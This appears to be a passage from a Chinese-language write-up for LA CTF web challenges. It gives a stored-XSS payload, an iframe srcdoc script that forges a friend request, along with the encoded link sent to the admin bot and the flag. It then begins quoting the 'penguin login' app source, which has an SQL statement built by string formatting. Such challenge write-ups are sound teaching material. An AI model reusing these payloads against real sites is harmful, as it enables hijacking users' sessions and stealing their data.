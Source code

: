 在搜尋好友的地方有 XSS 漏洞 (由於 dom 渲染順序，需要用 iframe 的 srcdoc 來觸發)，不過 session 有 HTTP only

做一下 code review 可以看到當好友加你的時候可以看到對方的 secret，而 admin 的 secret 就是 flag

因此創建一個名子為下面的帳號及一個 `ywc2` 的帳號接收 secret

```!
<iframe srcdoc='<script>fetch("https://new-housing-portal.chall.lac.tf/finder", {body: "username=ywc2",method: "POST",headers: {"content-type": "application/x-www-form-urlencoded"}});</script>'></iframe>
```

將以下網址送給 admin 即可觸發

```!
https://new-housing-portal.chall.lac.tf/finder/?q=%3Ciframe%20srcdoc%3D%27%3Cscript%3Efetch(%22https%3A%2F%2Fnew-housing-portal.chall.lac.tf%2Ffinder%22%2C%20%7Bbody%3A%20%22username%3Dywc2%22%2Cmethod%3A%20%22POST%22%2Cheaders%3A%20%7B%22content-type%22%3A%20%22application%2Fx-www-form-urlencoded%22%7D%7D)%3B%3C%2Fscript%3E%27%3E%3C%2Fiframe%3E
```

`lactf{b4t_m0s7_0f_a77_y0u_4r3_my_h3r0}`

### penguin login
app.py
```python
...
flag = Path("/app/flag.txt").read_text().strip()

allowed_chars = set(string.ascii_letters + string.digits + " 'flag{a_word}'")
forbidden_strs = ["like"]

@cache
def get_database_connection():
    # Get database credentials from environment variables
    db_user = os.environ.get("POSTGRES_USER")
    db_password = os.environ.get("POSTGRES_PASSWORD")
    db_host = "db"

    # Establish a connection to the PostgreSQL database
    connection = psycopg2.connect(user=db_user, password=db_password, host=db_host)

    return connection

with app.app_context():
    conn = get_database_connection()
    create_sql = """
        DROP TABLE IF EXISTS penguins;
        CREATE TABLE IF NOT EXISTS penguins (
            name TEXT
        )
    """
    with conn.cursor() as curr:
        curr.execute(create_sql)
        curr.execute("SELECT COUNT(*) FROM penguins")
        if curr.fetchall()[0][0] == 0:
            curr.execute("INSERT INTO penguins (name) VALUES ('peng')")
            curr.execute("INSERT INTO penguins (name) VALUES ('emperor')")
            curr.execute("INSERT INTO penguins (name) VALUES ('%s')" % (flag))
        conn.commit()

@app.post("/submit")
def submit_form():
    conn = None
    try:
        username = request.form["username"]
        conn = get_database_connection()
```